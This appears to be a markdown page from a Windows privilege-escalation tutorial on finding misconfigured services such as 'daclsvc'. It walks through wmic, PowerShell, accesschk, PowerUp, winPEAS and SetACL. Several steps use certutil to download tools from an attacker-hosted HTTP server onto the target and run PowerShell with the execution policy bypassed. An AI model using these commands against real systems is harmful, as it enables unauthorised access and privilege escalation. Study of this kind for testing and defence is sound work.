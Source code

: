 ```yaml
---
legal-banner: true
---
```


### **ENUMERATING SERVICES MANUALY**

1.  we can use the wmic command to display all the non-standard services running on the system using the following command:  
    `wmic service get name,displayname,pathname,startmode |findstr /i /v "C:\Windows\\"`

    ![](../../../../img/Windows-Environment/47.png)

2.  To perform the same function as the wmic command in PowerShell, apply the Get-WmiObject cmdlet as demonstrated:  
    `Get-WmiObject -class Win32_Service -Property Name,DisplayName,PathName,StartMode | Where {$_.PathName -notlike "C:\Windows\*"} | Select PathName,DisplayName,Name`

    ![](../../../../img/Windows-Environment/48.png)

### **ENUMERATING SERVICES WITH ACCESSCHK**

1.  If you don't have the Sysinternals Suite on your machine, you can download it from the official [Microsoft Website](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

    ![](../../../../img/Windows-Environment/49.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`

    ![](../../../../img/Windows-Environment/50.png)
    
3.  We can use [accesschk64.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to find any service that is writeable for our current user / any user:  
    `.\accesschk64.exe "%USERNAME%" -wuvc * -accepteula`

    ![](../../../../img/Windows-Environment/51.png)

    **NOTE:** Here, we can see that the daclsvc service has `SERVICE_CHANGE_CONFIG` permissions, allowing any user to modify the service,The only other permission that allows us to modify a service is `SERVICE_ALL_ACCESS`.
    
4.  We can use PowerUp to perform all of the misconfiguration / vulnerability checks at once.  
    `powershell -NoProfile -ExecutionPolicy Bypass -Command "& {.\PowerUp.ps1; Invoke-AllChecks}"`

    ![](../../../../img/Windows-Environment/52.png)
    

### **ENUMERATING SERVICES PERMISSION WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/53.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`

    ![](../../../../img/Windows-Environment/54.png)
    
3.  Now, all we need to do is run winPEAS to search for For weak service permissions   
    `.\winPEASx64.exe`

    ![](../../../../img/Windows-Environment/55.png)

    **NOTE:** The Services Information section in winPEAS provides a comprehensive list of all services, along with their configurations and potential security issues.
    
4.  Additionally, if we missed this somehow, scrolling down a bit further we will also see this finding in the Modifiable Services sub-section.

    ![](../../../../img/Windows-Environment/56.png)
    

### **GATHERING SERVICE INFORMATION**

1.  The pieces of information about the service that we are most interested in are the start mode and the binary path,StartName  
    `sc qc daclsvc`

    ![](../../../../img/Windows-Environment/57.png)
    
2.  using powershell  
    `Get-WmiObject win32_service | ?{$_.Name -like 'daclsvc'} | select Name, DisplayName, StartMode, State, PathName, StartName`

    ![](../../../../img/Windows-Environment/58.png)

    **NOTE:** We can see the StartName shows LocalSystem, which means this service executes as SYSTEM. If it was showing a different StartName, we would need to modify that field too to make sure the service executes as SYSTEM.
    
3.  we can use [SetACL](https://helgeklein.com/download/) to enumerate the permissions on the daclsvc service we found using the following command:  
    `.\SetACL.exe -on "daclsvc" -ot srv -actn list`  
    ![](../../../../img/Windows-Environment/59.png)